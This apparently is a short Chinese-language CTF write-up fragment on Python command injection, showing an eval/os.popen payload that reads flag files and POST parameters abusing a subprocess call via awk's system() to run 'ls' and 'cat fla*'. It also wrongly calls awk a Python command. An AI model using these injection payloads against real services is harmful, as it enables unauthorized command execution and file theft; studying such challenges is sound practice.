 ## **十六进制编码**
十六进制编码在Python字符串中是合法的，因为它是Python语言规范的一部分。当Python解释器读取到这样的编码时，它会将十六进制数转换成对应的字符。


## **eval()函数读文件**
```
eval(__import__('os').popen('cat /f*').read());
```

^
## **subprocess运行外部命令**
使用了 Python 的 `subprocess` 模块来运行外部命令：
```
tVar = subprocess.run([cmd[:3], param, __file__], cwd=os.getcwd(), timeout=5)
```
1. `subprocess.run`: 这是 `subprocess` 模块中的一个函数，用于运行外部命令。
2. `cmd[:3]`: 这是一个列表，包含了外部命令的可执行文件和它的参数。`cmd[:3]` 表示取 `cmd` 列表的前三个元素，可能是外部命令的可执行文件和一些参数。
3. `param`: 这是一个变量，作为外部命令的参数。
4. `__file__`: 这是一个变量，表示当前脚本的文件名。
5. `cwd=os.getcwd()`: 这是 `subprocess.run` 函数的参数，指定了子进程的当前工作目录。`os.getcwd()` 返回当前工作目录。
6. `timeout=5`: 这是 `subprocess.run` 函数的参数，指定了运行外部命令的超时时间，单位是秒。在这里，设置为 5 秒。

cmd是执行的命令，param是执行的参数
python中有一个awk命令，可以执行系统命令，长度刚好为3
格式为：awk '(system("ls")' 
通过抓包分析，传参方式为post，根据可控参数cmd和param
通过awk构造payload
payload:
cmd=awk&param={system("ls")}//查看当前路径下所有文件
cmd=awk&param={system("cat fla*")}//查爱fLag文件的内容

